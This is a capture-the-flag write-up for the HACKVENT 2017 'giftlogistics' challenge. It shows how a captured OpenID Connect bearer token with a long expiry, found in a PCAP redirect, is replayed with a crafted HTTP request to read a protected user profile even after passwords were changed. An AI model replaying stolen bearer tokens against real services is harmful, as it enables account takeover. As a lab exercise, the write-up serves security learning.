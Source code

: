 Day 12: giftlogistics
=====================
> *countercomplete inmeasure*
> 
> Most passwords of Santa GiftLogistics were stolen. You find an example of the traffic for Santa's account with password and everything. The Elves CSIRT Team detected this and made sure that everyone changed their password.
> 
> Unfortunately this was an incomplete countermeasure. It's still possible to retrieve the protected user profile data where you will find the flag.

In this challenge we are given a network capture as well as a website that was compromised. The description also tells us that even though every password have been changed, there is still a way to access a user profile to find the flag.

In the PCAP file we see several HTTP exchanges with the website, including a login showing that openID is in use. In particular a GET request is done to `/giftlogistics/.well-known/openid-configuration`. This file includes some interesting information for later:
```
[CUT BY trolli101]
  "grant_types_supported": [
    "authorization_code",
    "implicit",
    "urn:ietf:params:oauth:grant-type:jwt-bearer",
    "client_credentials",
    "urn:ietf:params:oauth:grant_type:redelegate"
  ],
[CUT BY trolli101]
  "userinfo_endpoint": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/userinfo",
[CUT BY trolli101]
```

JWT Bearer tokens are supported, let's keep this in mind. Also, the profile information is located at the URL shown above.

Exploring the PCAP further we have a POST request that shows a performed login, this is followed by a first and a second redirection. The second redirect goes to this URL:
```
http://transporter.hacking-lab.com/client#access_token=eyJraWQiOiJyc2ExIiwiYWxnIjoiUlMyNTYifQ.eyJzdWIiOiJzYW50YSIsImF6cCI6ImE3NWI0NzIyLTE0MWQtNGMwMC1iNjVjLTVkYzI3OTE0NmI2MCIsImlzcyI6Imh0dHA6XC9cL2NoYWxsZW5nZXMuaGFja3ZlbnQuaGFja2luZy1sYWIuY29tOjcyNDBcL2dpZnRsb2dpc3RpY3NcLyIsImV4cCI6MTUyNjkzNjkzNiwiaWF0IjoxNTExMzg0OTM2LCJqdGkiOiI4MTlmNWYzZC1hN2M3LTQ0YTktYmI5Ni0wZmQ4MmY0YjdlNzUifQ.U9Hv66701DtUb8zeqOo45JVbzC3yhKJhsQ_q7N20rdLn5-uovYzMWjhxY8I9oPQkv3s5iDDsx1GIUbnOkC8l__oj_uqptG0BPbRfD2K1blKpbXQt3yxD1pB63aHw5LRAp10ia0MNe8_eo-qzi9d58CVYY_XOtTRH8Ic_tP5lpXVaImi8miYFY2XqR1TuFM-cUjIMUYT9Ik8rwZAEbLO_1UAWPuQUpi0_Z6N0r3hKoIRSlknmmg8A5PunL2I0qFyICUm0cqb4fieBZ34R4117LmyQY_XvzKogIaLegDIgbp22hTGHPAdziEloYYaP5uc_aEnfo0eNvY7QLPNy1dDs-Q&token_type=Bearer&state=e6ec344ec594&expires_in=15551999&id_token=eyJlbmMiOiJBMjU2R0NNIiwiYWxnIjoiUlNBMV81In0.AjFhnIaX-LLVpdJDMOvkK4MbTreuz3rdAwUfim8NsErrh238expG4O9tazr8gqZep9lCbHpieqiFRD8yRhF1-BA-EdmV9zO_Ilerrtfra1_AC5ozYV6wt1nK7cyzUm77mdpEzRZ9yhlMLrvk6FSh0lxlO6XwbJq6AL_KUsZza0kgsNVdUw3EsoAKYwZhVuzIgCLEQ1McRpEoCE9KESjKEgOgf0XoLZN-kqEARMujJH9OpCgIXIsR7ypew7Wp6W2cjWVkedjY2yaofOzedJyP7brZzX_zzPfCHey5dqW4TOlRaMlLaQ5sWIOcA2-HpsIJExoKXWRW0LIdJFS8VPKF4Q.WZtAImcXGL4EjUfw.1s2sKvRDX93EIL529djgN873OjnSXwdhB5FU5QKGt-8c0Qh-FijdssQ_6Mykgazydj8NyxCi0e5H1GogRCiv8ibchvwi4gXdQIeMXUIomHYyn2LuXS5lkARLqPzJIbv_j60NiEbdc1K9t8YuO_jnK1aajoNq2CIsgNRDxfIgbA7TZ8-GWU-Z1dItv2g7-3Ks9pwG2nUnmP0bqifYb9dae5bZe_oS5wBiHdQh43VQFPigY4G7r1dASpG3rnm_v6uqcET96dxN6AECwhW4SFQZKUoGlgv9JkG7HrUjoYbygmE1H3yrNBHQlRxnuWDxLWffsnpoGEVuZEBLyUxNA07t42NomgAdxWAlNvlrSd2veArpX2iEL_0K1u1oHe8_fkWfyWugqu39kuOeCGh2FULM0B-F8nzM6pQIN62uqwiJVJ0.0DDYtfSSe8eq10KFJ2agXw
```

In this URL we spot the `access_token` parameter, that's our Bearer token. This is confirmed by the next parameter `token_type=Bearer`. We can decode it using <https://jwt.io/> for instance. The decoded version (content only) is:
```json
{
  "sub": "santa",
  "azp": "a75b4722-141d-4c00-b65c-5dc279146b60",
  "iss": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/",
  "exp": 1526936936,
  "iat": 1511384936,
  "jti": "819f5f3d-a7c7-44a9-bb96-0fd82f4b7e75"
}
```

Here the `exp` value is suspicious, converting this from a time stamp gives the following:
```
~/D/c/12 ❯❯❯ date -d @1526936936
Mon May 21 23:08:56 CEST 2018
```

So this is valid until May 2018 and since it is a Bearer token, no session is required on the server, the token is sufficient. This should be enough to access the user profile URL. Using Burp we can send the following HTTP request:
```
GET /giftlogistics/userinfo HTTP/1.1
Host: challenges.hackvent.hacking-lab.com:7240
Authorization: Bearer eyJraWQiOiJyc2ExIiwiYWxnIjoiUlMyNTYifQ.eyJzdWIiOiJzYW50YSIsImF6cCI6ImE3NWI0NzIyLTE0MWQtNGMwMC1iNjVjLTVkYzI3OTE0NmI2MCIsImlzcyI6Imh0dHA6XC9cL2NoYWxsZW5nZXMuaGFja3ZlbnQuaGFja2luZy1sYWIuY29tOjcyNDBcL2dpZnRsb2dpc3RpY3NcLyIsImV4cCI6MTUyNjkzNjkzNiwiaWF0IjoxNTExMzg0OTM2LCJqdGkiOiI4MTlmNWYzZC1hN2M3LTQ0YTktYmI5Ni0wZmQ4MmY0YjdlNzUifQ.U9Hv66701DtUb8zeqOo45JVbzC3yhKJhsQ_q7N20rdLn5-uovYzMWjhxY8I9oPQkv3s5iDDsx1GIUbnOkC8l__oj_uqptG0BPbRfD2K1blKpbXQt3yxD1pB63aHw5LRAp10ia0MNe8_eo-qzi9d58CVYY_XOtTRH8Ic_tP5lpXVaImi8miYFY2XqR1TuFM-cUjIMUYT9Ik8rwZAEbLO_1UAWPuQUpi0_Z6N0r3hKoIRSlknmmg8A5PunL2I0qFyICUm0cqb4fieBZ34R4117LmyQY_XvzKogIaLegDIgbp22hTGHPAdziEloYYaP5uc_aEnfo0eNvY7QLPNy1dDs-Q
```

As expected, the response includes the flag:
```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Access-Control-Allow-Origin: *
Content-Type: application/json;charset=ISO-8859-1
Content-Language: en
Content-Length: 98
Date: Tue, 12 Dec 2017 06:40:40 GMT
Connection: close

{"sub":"HV17-eUOF-mPJY-ruga-fUFq-EhOx","name":"Reginald Thumblewood","preferred_username":"santa"}
```
